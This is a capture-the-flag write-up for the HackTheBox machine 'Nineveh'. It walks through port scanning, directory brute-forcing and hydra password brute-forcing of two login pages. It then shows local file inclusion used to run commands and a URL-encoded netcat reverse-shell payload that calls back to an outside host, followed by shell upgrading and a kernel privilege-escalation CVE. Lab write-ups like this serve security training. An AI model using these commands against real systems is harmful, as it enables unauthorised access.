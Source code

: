# [Nineveh](https://www.hackthebox.com/machines/nineveh)

```bash
nmap -p0-1023 -A -sC -sV 10.10.10.43
```
![Alt text](img/image.png)


Directory brute-forcing
```bash
ffuf -u http://10.10.10.43/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php
```

![Alt text](img/image-1.png)


Let's look at source code of 'department' page of http.

![Alt text](img/image-2.png)


Here we have two possible usernames being 'admin' and 'amrois'

Let's do brute-forcing '/department/login.php' file by using hydra command. (http, port 80)
```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

![Alt text](img/image-3.png)


We got below credentials, admin:1q2w3e4r5t

After doing some enumeration on http (port 80), I find LFI(Local File Inclusion attack).
![Alt text](img/image-4.png)


Let's switch into another port (https, 443).I just did Directory Brute-forcing, and found phpliteadmin, let's brute-force here also to find admin credentials.

```bash
hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect" -t 64
```

I just use the same credentials and password system for my attack.
Here's the result.

admin:password123

![Alt text](img/image-5.png)


I found below exploit for phpliteadmin, let's try this.
![Alt text](img/image-6.png)


![Alt text](img/image-7.png)


![Alt text](img/image-8.png)

![Alt text](img/image-9.png)


Now, I use LFI for attack works.
```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/dr4ks.php&cmd=ls
```

here's result of exploit.

![Alt text](img/image-10.png)


Now, it's time to add reverse shell as below, I do URL encoding as because , I enter my payload to URL, and it should be encoded.
```bash
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.9+1234+>/tmp/f 
```

![Alt text](img/image-11.png)


![Alt text](img/image-12.png)


I spawned interactive shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL+Z

stty raw -echo; fg
```

Then put some modifications
```bash
export TERM=xterm
export SHELL=bash
```

Now, it's time to identify privilege escalation attack vector.
**CVE-2017-6074.**

![Alt text](img/image-13.png)


user.txt and root.txt

![Alt text](img/image-14.png)